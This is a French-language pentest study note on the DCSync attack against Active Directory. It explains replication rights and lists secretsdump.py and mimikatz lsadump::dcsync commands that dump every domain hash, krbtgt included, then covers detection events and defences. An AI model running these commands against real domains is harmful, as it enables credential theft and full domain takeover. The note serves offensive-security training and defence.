

# DCsync

> [!info] **En 1 phrase**
> DCsync = imiter le **processus de réplication AD** : on demande au Domain Controller les hashes
> de n'importe quel compte (dont krbtgt et l'admin) en se faisant passer pour un DC légitime.

---

## Concept



> [!info] **Pourquoi ça marche**
> AD réplique la base NTDS.dit entre DC via le protocole **DRSUAPI**. Un compte avec
> `Replicating Directory Changes` (et `Replicating Directory Changes All`) peut demander
> **n'importe quelle donnée**, y compris les hashes. C'est souvent le cas de **Domain Admins**.

---

## Comment ça marche

1. Obtenir un accès avec les droits de réplication (souvent : compte **Domain Admin** ou compte de service avec ACL étendue).
2. Utiliser un outil (mimikatz ou impacket) pour émettre une **GetNCChanges**.
3. Récupérer le **hash NTLM** (et AES) de la cible : utilisateur, admin, **krbtgt**.
4. **Rejouer** ces hashes (PtH) ou forger des tickets (Golden Ticket).

---

## Exploitation

```bash
# Impacket (Linux) - dump de TOUS les hashes du domaine
secretsdump.py -just-dc corp.local/admin:pass@DC01.corp.local
secretsdump.py -just-dc-ntlm corp.local/admin:pass@DC01.corp.local

# Mimikatz (Windows, sur un poste avec les droits)
lsadump::dcsync /domain:corp.local /user:admin
lsadump::dcsync /domain:corp.local /user:krbtgt
lsadump::dcsync /domain:corp.local /all /csv     # tous les comptes
```

---

## Détection & Défense

| Indicateur | Détail |
|---|---|
| **Événement 4662** | "Operation was performed on an object" sur l'ACL de réplication |
| **Événement 4661 / 4662 (Directory Service Access)** | Accès à NTDS |
| **Trafic DRSUAPI** | Un poste non-DC qui fait des GetNCChanges = SUSPICIEUX |
| **Réponse** | Restreindre les droits de réplication à quelques comptes (bonnes pratiques "Replicated ACL") |

- Activer les **Audit Policies** (Directory Service Access)
- Surveiller les comptes avec `Replicating Directory Changes` (BloodHound : `MATCH (n:User) WHERE n.allowedtoreplicate`)

---

## Tips & Pièges

> [!tip] **DCSync = le "game over" du domaine**
> Avec le hash **krbtgt** → [[Golden Ticket|Golden Ticket]]. Avec le hash de l'**admin** → accès partout.
> C'est généralement le **point final** d'un engagement AD réussi.

> [!warning] **Piège** : `secretsdump` depuis un compte SANS les droits de réplication échouera silencieusement. Vérifie les droits avec BloodHound avant.

---

## Liens

- [[Kerberos - Le protocole| Kerberos]]
- [[Golden Ticket| Golden Ticket]]
- [[Pass-the-Hash| Pass-the-Hash]]
- [[ACL Abuse AD| ACL Abuse]]
- → Note complète : [[05 - Active Directory| Active Directory]]
